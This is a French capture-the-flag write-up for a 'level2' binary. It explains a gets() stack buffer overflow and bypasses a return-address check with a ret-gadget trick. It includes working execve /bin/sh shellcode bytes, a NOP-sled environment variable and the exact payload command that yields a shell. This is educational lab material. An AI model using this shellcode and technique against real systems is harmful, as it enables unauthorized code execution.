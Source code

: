 
## Level 2

En dessasemblant le binaire level2, on trouve deux fonctions:

`main()` qui fait un simple appel a `p()`.

`p()` déclare un tableau de 76 bytes.
La fonction va lire sur l'entrée standart avec l'appel `gets()`qui est vulnérable, et stocker le resultat dans ce
tableau `src`.

![image](https://user-images.githubusercontent.com/29956389/94676129-271acc00-031b-11eb-8e8e-b462d6902a54.png)

Ensuite un pointeur est déclaré a l'adresse `[ebp + 0x4]`.
Une opération binaire est éffectué sur cette adresse, une condition est ensuite vérifié:

Si la condition est vrai, le programme affiche l'adresse du pointeur et quitte.

Si la condition est fausse, la chaine de caractère est affiché et copié, puis la
fonction quitte.

Le pointeur [ebp + 0x4] est en dehors de notre stackframe, la condition vérifie donc si un overflow a modifié l'adresse a cette adresse, qui est l'EIP.

Comme la condition vérifie que le premier byte qui overflow le tableau commence
par `0xb (adresse de stack)`, on ne peut pas directement placer l'adresse de notre
nopsled dedans (Qui serait d'habitude soit sur la stack, soit dans l'environement).

Par contre, on peut y déclarer toute autre valeur, comme par exemple l'adresse
de l'instruction `return` de cette fonction.

Pour ensuite rediriger l'EIP sur notre nopsled, on y rajoute l'adresse en plus.

Soit `[80 bytes pour remplir le buffer] + [Adresse instruction ret] + [&Nopsled]`.

En ajoutant cet addresse, nous allons réécrire la sauvegarde EIP, qui est stocké
avant l'appel a `call p()`. Le programme essayera donc de reprendre son
execution normal en revenant de la fonction `p()`, mais l'adresse de notre nopsled
y sera stocké, et l'EIP executera notre shellcode.

En code:

`echo -ne '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' > /tmp/shellcode.bin`

`export SLEDCODE=$(python -c 'print "\x90"*128')$(cat shellcode.bin)`

`python -c 'print "B"*80 + "\xff\xff\xff\x08" + "\x8c\xf8\xff\xbf"' > /tmp/buffer`

`cat /tmp/buffer - | ./level2`

Et on obtient un shell!
